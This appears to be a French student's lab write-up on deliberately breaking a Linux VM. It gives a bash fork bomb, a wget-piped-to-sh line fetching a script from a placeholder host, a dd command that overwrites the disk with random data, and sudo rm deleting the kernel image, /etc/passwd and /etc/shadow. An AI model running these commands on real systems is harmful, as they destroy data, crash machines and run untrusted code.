 # TP1 : Are you dead yet ?

1 : 

- avec cette commande :
    ```:(){ :|: & };:```

 Il s'agit d'une fonction bash simple qui crée des copies de lui-même qui à son tour crée un autre ensemble de copies de lui-même.

2 : 

- en mettant une NAT et en installant ensuite un scipt malveillant.
installer le script avec cette commande :
    ```
    wget http://example.com/something -O – | sh —
    ```

3 :

- avec cette commande :
    ```
    dd if=/dev/random of=/dev/sda
    ```

cette commande va écrire sur le disque dur plein de déchets aléatoirement.

4 : 

```
[gwuill@localhost ~]$ sudo rm -r /boot/vmlinuz-0-rescue-af0a4bbbf4814e05a8b1266bd5f79041
[gwuill@localhost ~]$ sudo rm -r /etc/passwd
[gwuill@localhost ~]$ sudo rm -r /etc/shadow
```

ces différentes étapes permettent de supprimé les données utilisateurs dont le mot de passe utilisateur